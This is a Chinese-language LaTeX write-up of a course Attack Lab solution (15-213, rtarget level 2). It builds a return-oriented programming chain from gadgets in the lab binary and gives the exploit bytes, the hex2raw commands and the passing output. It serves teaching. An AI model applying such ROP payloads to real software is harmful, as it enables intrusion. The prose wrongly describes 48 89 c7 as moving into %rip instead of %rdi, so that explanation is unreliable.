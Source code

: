 \documentclass[12pt, a4paper, oneside]{ctexart}
\begin{document}
\begin{itemize}
    \item 可以分为两部分，利用栈溢出把 0x59b997fa 和 0x4017ec 放到栈中；利用
    gadget 先 popq 再 movq 把栈顶弹出赋值给 rip。然后 ret 跳转到 touch2 函数的地址那里。
    \item 仔细对照 P17 的表和 rtarget 中 start\_farm 到 end\_farm 之间的汇编，注意：
    popq xxx 是 5x；movq xxx xxx 是 48 xx xx；rdi 是 x7 或者 xf。我们可以发现：
\begin{lstlisting}
00000000004019a7 <addval_219>:
4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
4019ad:	c3                   	retq  
\end{lstlisting}
    从 0x4019ab 开始等价于执行 popq \%rax; nop; retq;
\begin{lstlisting}
00000000004019a0 <addval_273>:
4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
4019a6:	c3                   	retq  
\end{lstlisting}
    从 0x4019a2 开始等价于执行 movq \%rax \%rip; retq;
    \item 因此答案如下（rtarget\_l4.txt，无注释）：
\begin{lstlisting}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 // fill BUFFER_SIZE
ab 19 40 00 00 00 00 00 // popq %rax; retq
fa 97 b9 59 00 00 00 00 // value pop from the stack to %rax
a2 19 40 00 00 00 00 00 // movq %rax, %rip; retq
ec 17 40 00 00 00 00 00 // address of touch2
\end{lstlisting}
    \item 用 hex2raw 转化一下作为输入，成功跳转
\begin{lstlisting}
./hex2raw < rtarget_l4.txt > rtarget.l4
./rtarget -qi rtarget.l4    
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
\end{lstlisting}
\end{itemize}
\end{document}
